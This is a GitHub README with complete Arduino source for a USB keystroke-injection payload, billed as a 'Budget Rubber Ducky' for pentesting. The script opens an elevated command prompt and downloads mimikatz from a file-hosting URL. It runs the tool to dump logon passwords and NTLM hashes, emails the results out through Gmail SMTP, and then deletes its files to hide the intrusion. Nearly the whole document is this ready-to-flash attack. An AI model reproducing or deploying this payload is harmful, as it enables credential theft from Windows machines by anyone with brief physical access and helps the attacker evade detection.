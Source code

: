 # Arduino mimikatz hash dump payload and report via email. Optimised for windows 10
## Runs mimikatz locally from a portable arduino and emails you the report. The Budget Rubber Ducky.

mimikatz dumps the NTLM password hashes, system information and more, very useful for pentesting.

Tested on windows 10, 8, 7, *Vista* on both x64 and x86.

This script is optimised to run off portable arduino's such as the Arduino Pro Micro (really cheap at $3) but will also work on others. The script's size at only 6,812 bytes is perfect for small flash memory units.


#### Script run time: 5-10 seconds on an Arduino Pro Micro using the Arduino Leonardo chip
<img src="https://github.com/valkyrix/Arduino-mimikatz-dump-and-report-via-email-for-windows-10/raw/master/pro_micro.jpg" align="middle" height="600" width="600" >

Mimicats binaries have been hardcoded but they can be changed by replacing the two url's within the powershell command.

The script has been setup to communicate with the gmail smtp server but can be used with any email provider really.

Replace `EMAIL` and `PASSWORD` placeholders with your own.
Change the SMTP server and port information if you are not using gmail as the provider.

#### Script stages

- Launch elevated command prompt.
- Download the correct mimikatz exe based on processor type.
- Execute mimikatz and export data.
- Email the output to selected email address as an attachment using powershell's SMTP .
- Remove all traces on the system.

```Arduino
#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  Keyboard.begin();
  delay(500);
  Keyboard.press(KEY_LEFT_CTRL);
  delay(200);
  Keyboard.press(KEY_ESC);
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.print("cmd.exe");
  delay(200);
  Keyboard.releaseAll();
  delay(200);
  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_LEFT_SHIFT);
  Keyboard.press(KEY_RETURN);
  delay(200);
  Keyboard.releaseAll();

  delay(1000);

  // Download the correct exe based on processor type
  Keyboard.print("powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?cw5v9jryul','%TEMP%\\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('https://1fichier.com/?13f1u3iqc3','%TEMP%\\pw.exe');}");
  typeKey(KEY_RETURN);
  delay(1500);

  // execute and export output from mimikatz
  Keyboard.print("%TEMP%\\pw.exe > C:\\pwlog.txt & type C:\\pwlog.txt;");
  typeKey(KEY_RETURN);
  delay(100);
  Keyboard.print("privilege::debug");
  typeKey(KEY_RETURN);
  Keyboard.print("sekurlsa::logonPasswords full");
  typeKey(KEY_RETURN);
  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("del %TEMP%\\pw.exe");
  typeKey(KEY_RETURN);
  delay(300);

  // email log via gmail
  Keyboard.print("powershell -ExecutionPolicy ByPass");
  typeKey(KEY_RETURN);
  delay(300);
  Keyboard.print("$SMTPServer = 'smtp.gmail.com'");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo = New-Object Net.Mail.SmtpClient($SMTPServer, 587)");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.EnableSsl = $true");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('EMAIL', 'PASSWORD');");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail = New-Object System.Net.Mail.MailMessage");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.From = 'EMAIL'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.To.Add('EMAIL')");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Subject = 'Mimikatz report'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Body = 'script by Valkyrix.github.io'");
  typeKey(KEY_RETURN);
  Keyboard.print("$ReportEmail.Attachments.Add('C:\\pwlog.txt')");
  typeKey(KEY_RETURN);
  Keyboard.print("$SMTPInfo.Send($ReportEmail)");
  typeKey(KEY_RETURN);
  delay(7000);

  Keyboard.print("exit");

  typeKey(KEY_RETURN);

  // Cleanup and flee the scene.
  Keyboard.print("del C:\\pwlog.txt");
  typeKey(KEY_RETURN);
  delay(300);

  Keyboard.print("exit");
  typeKey(KEY_RETURN);
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```


